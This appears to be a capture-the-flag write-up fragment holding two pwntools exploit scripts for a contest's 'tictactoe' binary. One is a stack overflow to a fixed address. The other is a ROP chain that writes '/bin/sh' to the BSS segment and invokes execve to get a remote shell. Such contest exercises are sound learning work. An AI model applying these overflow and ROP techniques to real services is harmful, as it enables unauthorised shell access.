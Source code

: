 ```python
from pwn import *
#sh = process('./tictactoe')
sh = remote('202.38.93.111',10141)
sh.recvuntil('Please input your token: ')
sh.sendline('...')#填写token
#gdb.attach(sh)
sh.recvuntil('Your turn. Input like (x,y), such as (0,1): ')
sh.sendline('(1,1)')
payload ='(1,2)'+'a'*0x93 + p64(0x40255D)
sh.sendline(payload)
sh.interactive()
```

## T2 升上天空

```python
from pwn import *
#sh = process('./tictactoe')
sh = remote('202.38.93.111',10141)

syscall = 0x0000000000402bf4
pop_rax = 0x000000000043e52c
pop_rdi = 0x00000000004017b6
pop_rsi = 0x0000000000407228
pop_rdx = 0x000000000043dbb5
pop_rbx = 0x000000000046cb55

bss_addr = 0x4A8370
gets_addr = 0x409E00

sh.recvuntil('Please input your token: ')
sh.sendline('...')#填写token
#gdb.attach(sh)
sh.recvuntil('Your turn. Input like (x,y), such as (0,1): ')
sh.sendline('(1,1)')
payload ='(1,2)'+'a'*0x93
payload += p64(pop_rdi)
payload += p64(bss_addr)
payload += p64(gets_addr)
payload += p64(pop_rdi)
payload += p64(bss_addr)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rbx)
payload += p64(0)
payload += p64(pop_rax)
payload += p64(0x3b)
payload += p64(syscall)
sh.sendline(payload)
sleep(0.1)
sh.sendline('/bin/sh\x00')
sh.interactive()
```
